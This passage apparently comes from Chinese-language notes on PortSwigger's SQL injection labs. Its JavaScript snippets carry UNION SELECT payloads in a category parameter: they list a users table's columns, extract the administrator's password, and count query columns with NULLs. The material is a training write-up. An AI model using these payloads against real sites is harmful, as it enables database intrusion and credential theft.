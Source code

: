 查一下 `USERS_LCHIFI` 有哪些 columns，確定帳密是 `USERNAME_MMUPPE` 跟 `PASSWORD_SNQVCH`

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Corporate gifts' UNION SELECT column_name,data_type FROM all_tab_columns WHERE table_name = 'USERS_LCHIFI'--",
);
const href = url.href;
window.open(href, "_blank");
```

開始查 `administrator` 的密碼

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Corporate gifts' UNION SELECT USERNAME_MMUPPE,PASSWORD_SNQVCH FROM USERS_LCHIFI WHERE USERNAME_MMUPPE = 'administrator'--",
);
const href = url.href;
window.open(href, "_blank");
```

## Lab: SQL injection UNION attack, determining the number of columns returned by the query

| Dimension | Description                                                                                                 |
| --------- | ----------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/union-attacks#determining-the-number-of-columns-required |
| Lab       | https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns            |

這題意外的簡單，利用前面的技術 `UNION SELECT NULL` 來判斷 `SELECT` 多少 columns

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append("category", "Lifestyle' UNION SELECT NULL,NULL,NULL--");
const href = url.href;
window.open(href, "_blank");
```

## Lab: SQL injection UNION attack, finding a column containing text

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/union-attacks#finding-columns-with-a-useful-data-type |
| Lab       | https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text         |

承接上一題，就是把 `NULL` 換成題目指定的字串 `bpaLX3`，看哪個 index 換掉會成功
